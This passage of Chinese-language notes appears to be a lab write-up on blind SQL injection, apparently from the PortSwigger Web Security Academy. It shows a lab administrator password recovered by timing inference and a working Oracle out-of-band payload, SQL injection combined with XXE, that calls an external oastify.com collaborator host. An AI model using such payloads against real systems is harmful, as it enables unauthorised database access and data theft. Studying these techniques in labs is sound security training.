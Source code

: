 ![image-20250502174612621](./img/image-20250502174612621.png)

根据响应时间，检索出数据

```
administrator
dyb5ojsteohuiu9qegnp
```

成功登录

### 带外（OAST）注入

应用程序继续在原始线程中处理用户的请求，并使用另一个线程通过跟踪 Cookie 执行 SQL 查询。该查询仍然容易受到 SQL  注入的攻击，但到目前为止描述的任何技术都不起作用。应用程序的响应不依赖于返回任何数据的查询、发生的数据库错误或执行查询所花费的时间。

在这种情况下，通常可以通过触发对您控制的系统的带外网络交互来利用盲目 SQL 注入漏洞。这些可以根据注入的条件触发，以一次推断一个信息。更有用的是，可以直接在网络交互中泄露数据。

SQL备忘录：`https://portswigger.net/web-security/sql-injection/cheat-sheet`

我们需要让数据库对外部域执行 DNS 查找

payload

将 SQL 注入与基本的 XXE 技术相结合

```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//fp8vd7yr1a5t3gpapxw122ejnat1hu5j.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

![image-20250502180304760](./img/image-20250502180304760.png)
